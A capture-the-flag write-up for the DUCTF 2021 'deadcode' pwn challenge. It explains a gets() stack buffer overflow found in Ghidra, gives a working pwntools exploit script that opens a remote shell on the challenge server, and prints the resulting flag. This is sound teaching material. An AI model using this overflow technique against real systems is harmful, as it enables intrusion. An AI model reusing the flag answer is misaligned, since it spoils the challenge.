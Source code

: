 # deadcode

## Category
Pwn

## Points
Dynamically allocated starting at 500, ending at 100

## Description
I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

Author: xXl33t_h@x0rXx

`nc pwn-2021.duc.tf 31916`

Files: `deadcode`

## Keywords
pwntools, Python, Buffer Overflow, Ghidra

## Notes
The executable (`deadcode`) was opened in Ghidra, and this showed the `main()` function as:

![main function](main_function.png)

Here we can see the input uses `gets()` to fill the `local_28` array, which is of size 24 chars. We can also see that `local_10` declared directly after the array.

This means that we can overflow the `local_28` array and overwrite the `local_10` variable.

Later, we can see that `local_10` needs to be `0xdeadc0de` to give us a shell.

*pwntools* can help here. A Python script we created that does what we want is:
```python
from pwn import *

context.update(arch='x86_64', os='linux')

p = remote('pwn-2021.duc.tf', 31916)

payload = cyclic(24) + p32(0xdeadc0de)
p.sendline(payload)

p.interactive()
```

When run, this gives a shell, and enables us to `cat` a file named *flag.txt* on the server:
```
$ python3 get_flag.py
[+] Opening connection to pwn-2021.duc.tf on port 31916: Done
[*] Switching to interactive mode

I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

What features would you like to see in my app?


Maybe this code isn't so dead...
$ ls
flag.txt
pwn
$ cat flag.txt
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}$
$
```

